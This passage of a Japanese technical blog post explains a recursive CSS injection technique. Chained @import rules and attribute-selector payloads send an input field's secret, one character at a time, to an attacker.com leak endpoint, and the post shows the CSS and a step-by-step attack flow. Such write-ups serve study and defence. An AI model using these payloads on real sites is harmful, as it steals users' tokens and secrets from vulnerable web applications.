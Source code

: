 `0.css`の中身は以下のようにしておきます．
```css
@import url("http://attacker.com/css/1.css");

input[value^="0"] { background: url(http://attacker.com/leak/0) }
input[value^="1"] { background: url(http://attacker.com/leak/1) }
...
input[value^="f"] { background: url(http://attacker.com/leak/f) }
```

ここで，`@import url("http://attacker.com/css/1.css");`によって`1.css`へのアクセスが行われます．  
  
ただし，`1.css`へのアクセスは，リークした機密情報を捉えるためのエンドポイントである`http://attacker.com/leak/<secret>`へのアクセスより先であるため，この時点では機密情報の1文字目は判明していません．  
  
そこで，一旦`1.css`へのレスポンスを保留させておきます．  
そして，`http://attacker.com/leak/<secret>`へのアクセスによって機密情報の1文字目が判明した後に`1.css`の内容を構成し，それをレスポンスとして返却します． 
   
機密情報の1文字目が`a`であった場合の`1.css`は以下のようになります．
```css
@import url("http://attacker.com/css/2.css");

input[value^="a0"] { background: url(http://attacker.com/leak/a0) }
input[value^="a1"] { background: url(http://attacker.com/leak/a1) }
...
input[value^="af"] { background: url(http://attacker.com/leak/af) }
```

このように`@import`を再帰的にチェーンさせていくことで，機密情報全体のリークを狙います．  

## 攻撃フロー
攻撃のフローをまとめると以下のようになります．  
<hr>
[f:id:Szarny:20191017165049p:plain]
<hr>

本手法は，`recursive`ディレクトリ内で実装を行なっています．
  
攻撃の流れは以下の通りです．

1. 攻撃者はリークした機密情報をフックするため，及び，リークした機密情報に応じたCSSを生成し配布するためのWebサーバを用意する
1. 攻撃者はターゲットに対して，CSSi脆弱性があるWebアプリーケーションに`0.css`をimportするようなCSSを送信させる(`<style>@import url('http://0.0.0.0:8081/css/0.css')</style>`)．
1. 挿入されたCSSによって攻撃者のWebサーバに`1.css`へのリクエストが送信される(ここではレスポンスを保留する)．
1. 挿入されたCSSによって攻撃者のWebサーバに機密情報の1文字目がリークする．
1. リークした機密情報の1文字目をもとに`1.css`を構成しレスポンスする．
1. レスポンスされたCSSによって攻撃者のWebサーバに`2.css`へのリクエストが送信される(ここではレスポンスを保留する)．
1. レスポンスされたCSSによって攻撃者のWebサーバに機密情報の2文字目がリークする．
1. リークした機密情報の1,2文字目をもとに`2.css`を構成しレスポンスする．
1. 以下ループ

## 動作デモ
<blockquote class="imgur-embed-pub" lang="en" data-id="a/uM9uHDE" data-context="false" ><a href="//imgur.com/a/uM9uHDE"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>
